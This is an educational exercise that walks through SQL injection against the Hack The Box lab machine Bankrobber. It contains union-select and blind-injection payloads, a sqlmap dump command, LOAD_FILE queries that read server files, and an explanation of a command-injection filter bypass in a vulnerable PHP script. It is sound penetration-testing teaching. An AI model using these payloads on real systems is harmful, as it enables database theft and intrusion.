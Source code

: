 # Exercise: Using SQL injection on the Bankrobber box

In order to try out SQL injection, we will go back to the Hack The Box machine, Bankrobber. The XSS exploitation will give us credentials for the admin user and with those, we can access the administration functionality of the site where you discover a user's search function that is SQL injectable.

![Search functionality available after logging in as admin on Bankrobber](../.gitbook/assets/2%20%289%29.png)

You know that it is SQL injectable through the following process: Simple numbers like 1 and 2 in the search query return users with those numbers as ids. Putting a single quote after the number results in an error that is returned saying that “There is a problem with your SQL syntax”. Adding the MySQL comment text 1'-- - into the search field then returns the user again.

Catching the entire search request in Burp \(turn on the Burp proxy option in FoxyProxy and click search to intercept the request in the Proxy tab, then send the request to the Repeater tab in Burp using CTL-R\) allows us to play with the SQL and determine that it is “union select” injectable. To determine the number of columns that the original query is returning, we can use the following injection and sending it via Burp repeater:

```sql
term=1'+order+by+1--+-
```

This returns one user from the request. Incrementing the order by clause to 4 returns an error “There is a problem with your SQL syntax” telling us that the number of columns in the original query was 3. This means you can now carry out a union select with the query string:

```sql
term=1'+union+select+'Field1','Field2',3--+-
```

This returns the output

```markup
HTTP/1.1 200 OK
Date: Thu, 01 Oct 2020 04:53:15 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
X-Powered-By: PHP/7.3.4
Content-Length: 180
Connection: close
Content-Type: text/html; charset=UTF-8
<table width='90%'><tr><th>ID</th><th>User</th></tr>
 <tr>
 <td>1</td>
 <td>admin</td>
 </tr>
 <tr>
 <td>Field1</td>
 <td>Field2</td>
 </tr>
 </table>
```

Knowing that this is a union select injectable field and that the database is MySQL, you can dump the default database using the sqlmap command:

`sqlmap -r search.req --batch --dbms MySQL --technique U -p term --dump`

Without the parameters –dbms, --technique and -p sqlmap will determine these itself, but it is faster to provide them if you already know the answer.

sqlmap can carry out blind attacks by using timing techniques. These work by introducing a delay in the response if the answer to a query is true. An example of this given by OWASP for MySQL uses the BENCHMARK\(50000000,ENCODE\('MSG', 'by 5 seconds'\)\) statement to introduce an approximately 5 second pause. So the SQL statement

```sql
1' UNION SELECT IF(SUBSTRING(user_password,1,1) = CHAR(50),
BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) 
FROM users WHERE user_id = 1
```

Will test if the first character in the password is ‘2’ \(assuming the password is in clear text\).

Whilst sqlmap can save time in obtaining information from SQL injection, it is always useful to know how to get the information manually. For example, in Bankrobber, you can list the databases in MariaDB with the command:

```sql
term=1'+union+select+'Field1',(SELECT group_concat(schema_name) 
FROM information_schema.schemata),3--+-
```

The response will include the databases

`bankrobber,information_schema,mysql,performance_schema,phpmyadmin,test`

The site, _**PayloadsAllTheThings**_ has a SQL Injection Cheat Sheet that lists other commands for exploring databases.

We can list the tables in the database bankrobber with the following query:

```sql
term=1' union select 1,table_name,3 from INFORMATION_SCHEMA.TABLES 
where table_schema=database()-- -
```

This returns the tables: admin, balance, hold and users. We can list the columns in the users table using the command:

```sql
term=1' union select 1,group_concat(0x7c,column_name,0x7c),3 
from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
```

This returns the column names:

`|id|,|username|,|password|,|USER|,|CURRENT_CONNECTIONS|,|TOTAL_CONNECTIONS|`

Finally, we could list the usernames and passwords for the users:

```sql
term=1' union select 1,group_concat(username,0x3a,password),3 from users-- -
```

Which returns:

`admin:Hopelessromantic,gio:gio`

Nothing particularly useful. One function that you can use in SQL is the LOAD\_FILE function which will allow us to include a local file into the response. We can try it with a well known Windows file c:\Windows\win.ini

```sql
term=1' union select 1,LOAD_FILE('c:\\Windows\\win.ini'),3-- -
```

And sure enough, this returns the contents of the file:

```sql
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If we enumerate the web directories with Gobuster we find for the root directory:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/\
    directory-list-2.3-medium.txt -x php,txt -u http://bankrobber.htb
<SNIP>
/index.php (Status: 302)
/img (Status: 301)
/login.php (Status: 302)
/register.php (Status: 200)
/user (Status: 301)
/admin (Status: 301)
/link.php (Status: 200)
/css (Status: 301)
/Index.php (Status: 302)
/Login.php (Status: 302)
/js (Status: 301)
/notes.txt (Status: 200)
/logout.php (Status: 302)
/licenses (Status: 403)
```

The file of particular interest is notes.txt which when we look at says:

```text
- Move all files from the default Xampp folder: TODO
- Encode comments for every IP address except localhost: Done
- Take a break..
```

The key bit of information is that the Xampp folder is in the default location. XAMPP is a product that packages up Apache, MariaDB, PHP and Perl to run web applications. MariaDB is compatible with MySQL and so is largely indistinguishable for our purposes.

Going back to the home page, there was another function called  _**Backdoorchecker**_ that said it would allow the dir command but when you try it, you get an error message:

It's only allowed to access this function from localhost \(::1\).

This is due to the recent hack attempts on our server.

It would be worth looking at the code for this file which we can do using SQL injection

```sql
term=1' union select 1,LOAD_FILE('c:\\xampp\\htdocs\\admin\\backdoorchecker.php'),
    3-- -
```

This returns the code for backdoorchecker.php

```php
<?php
include('../link.php');
include('auth.php');
$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad = array('$(','&');
$good = "ls";
if(strtolower(substr(PHP_OS,0,3)) == "win"){
 $good = "dir";
}
if($username == "admin" && $password == "Hopelessromantic"){
if(isset($_POST['cmd'])){
 // FILTER ESCAPE CHARS
  foreach($bad as $char){
    if(strpos($_POST['cmd'],$char) !== false){
      die("You're not allowed to do that.");
    }
  }
 // CHECK IF THE FIRST 2 CHARS ARE LS
 if(substr($_POST['cmd'], 0,strlen($good)) != $good){
   die("It's only allowed to use the $good command");
 }
 if($_SERVER['REMOTE_ADDR'] == "::1"){
   system($_POST['cmd']);
 } else{
   echo "It's only allowed to access this function from localhost (::1).<br> 
     This is due to the recent hack attempts on our server.";
 }
 }
} else{
 echo "You are not allowed to use this function!";
}
?>
```

The key things about this code are that it checks that cookie has username with a value of "admin" and password with a value of "Hopelessromantic" \(11\). It then checks that the command does not include '&' which would allow us to run a second command after the 'dir' command \(14\). It checks that the command starts with 'dir' so that we can't substitute other commands instead \(9\). It checks if the request came from the local machine \(23\). Finally, it executes the command y. The flaw here is is that although it is checking for bad characters that could manipulate the command and run other arbitrary commands, it still allows us to use the '\|' character which works in the same way as the '&' after a command.

We can now run a command but we still need to do this using server-side request forgery using the XSS vulnerability as we did earlier in the chapter.

